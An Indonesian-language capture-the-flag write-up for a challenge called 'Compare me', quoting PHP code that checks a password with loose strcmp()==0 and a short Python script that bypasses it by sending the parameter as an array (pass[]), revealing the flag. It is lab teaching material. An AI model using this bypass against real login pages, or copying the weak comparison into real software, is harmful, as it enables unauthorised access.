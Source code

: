 <h1><b>Compare me</h1></b>
<pre>
Source code can be found here

<a href='http://static.beast.sdslabs.co/static/Compare%20me/source.txt'>source.txt</a>

<a href='http://hack.bckdr.in:17582/'>link to challenge</a>
</pre>
</b><h3>Solution</h3></b>
<p align='justify'>Kita diminta untuk mengakses link http://hack.bckdr.in:17582/, dan disana terdapat pesan "NO FLAG FOR YOU". Sesuai judulnya yaitu compare me, ini kemungkinan
mengenai fungsi strcmp dari PHP, dan setelah diperhatikan disource codenya ternyata benar</p>

```php
if(strcmp($pass,$real_pass)==0){
        echo $flag;
    }
    else{
        echo "<h1>No Flag for you - Komi San</h1>";
    }
```
<p align='justify'>Di statment atas me-compare variabel pass dan real_pass, dimana pass yaitu hasil request dari pengguna. Untuk bypass fungsi strcmp yaitu menambahkan buka dan tutup kurung siko
seperti variabel pass menjadi pass[]</p>

```python3
import requests

url = 'http://hack.bckdr.in:17582/'
data = {"pass[]":"testing"}
res = requests.get(url,params=data).text
print(res) #flag{phpsadness.com}
```
<p>Dan flag didapatkan yaitu flag{phpsadness.com}</p>
</b><h3>Flag</h3></b>
<pre>
flag{phpsadness.com}
</pre>
